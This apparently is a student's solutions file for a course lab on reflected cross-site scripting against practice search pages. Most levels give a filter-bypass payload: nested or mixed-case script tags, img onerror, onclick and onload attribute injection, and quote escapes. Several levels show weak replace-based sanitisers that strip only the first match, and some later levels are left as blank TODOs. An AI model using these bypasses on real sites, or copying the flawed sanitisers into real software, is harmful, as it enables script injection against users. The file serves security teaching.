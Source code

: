 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)
Explanation: basic script tag and call success() to complete the challenge
<!--http://caloogle.xyz:4010/search?q=%3Cscript%3Esuccess%28%29%3C%2Fscript%3E-->
```
<script>success()</script>
```

# 2. No Script Allowed (3 points)
Explanation: the code only replace the first "script" word encountered (no 'g' flag for replace global).
<!--http://caloogle.xyz:4020/search?q=%3Cscriptscript%3Esuccess%28%29%3C%2Fscript%3E-->
```
<scriptscript>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)
Explanation: The next challenge now replace any "script" word with ''. Therefore, we can bypass it by building the string around it ('scr[script]ipt'). As a result, we are able to inject XSS.
<!--http://caloogle.xyz:4030/search?q=<sscriptcript>success()</scrscriptipt>-->
```
<sscriptcript>success()</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)
Explanation: The regex do not have the -i flag, which means the regex only replace lower-case "script".

<!-- http://caloogle.xyz:4040/search?q=%3CSCRIPT%3Esuccess()%3C/SCRIPT%3E -->
```
<SCRIPT>success()</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

Explanation: same as #4, but now it replace "script" and "SCRIPT". Therefore, we can just mixed lower and uppercase on the word "script" to bypass.
<!--http://caloogle.xyz:4050/search?q=%3CScript%3Esuccess%28%29%3C%2FScript%3E-->
```
<Script>success()</Script>
```

# 6. A Picture is Worth a Thousand Words (3 points)
Explanation: hint is "picture"; Close the input tag and create img tag with XSS payload
<!--http://caloogle.xyz:4060/search?q=%22%3E%3Cimg+src%3D0+onerror%3Dsuccess%28%29%3E%3C-->
```
"><img src=0 onerror=success()><
```

# 7. Between a Rock And a Hard Place (3 points)
Explanation: use onclick as the other attributes are blocked (onclick=, onload=, script)
<!--http://caloogle.xyz:4070/search?q=%22%3Ca+href+onclick%3D%22success%28%29%22%3EDanger%3C%2Fa%3E%22-->
```
"<a href onclick="success()">Danger</a>"
```

# 8. Angle of Death (6 points)

Explanation:
blind attack and they removed the "<,>,script" tag & keywords that makes me need to play around more
<!--http://caloogle.xyz:4080/search?q=%3C%3CScRiPt%3E%3Esuccess()%3C/ScRiPt%3E-->
Attack input:
```
<><script>success()</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
   q = q.replace(/</, '')
   q = q.replace(/>/, '')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

<!--http://caloogle.xyz:4100/search?q=%22+onload%3Dsuccess%28%29%3E-->
```
" onload=success()>
```

# 11. You Can't Win 'em All (6 points)

Attack input:
<!--http://caloogle.xyz:4110/search?q=%22%22%3E%3Ch3%3E%3CScript%3Esuccess%28%29%3C%2FScript%3E-->
```
""><Script>success()</Script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
   //const oldQ = q
   q = q.replace(/"/, '&quot;')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, /*oldQ,*/ results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:
<!--http://caloogle.xyz:4120/search?q=random%27%3E%3Cscript%3Esuccess%28%29%3C%2Fscript%3E-->
Explanation: the Hrvrd.io <li> is still vulnerable to reflected XSS. It doesn't sanitize the single quote which we can escape the <img> tag to create <script> tag.

```
random'><script>success()</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
   q = q.replace(/"/g, '&quot;')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: Replace this with your solution. **This should be a URL!**
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: Replace this with your attack input.
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: Replace this with your attack input.
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: Replace this with your solution.
```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
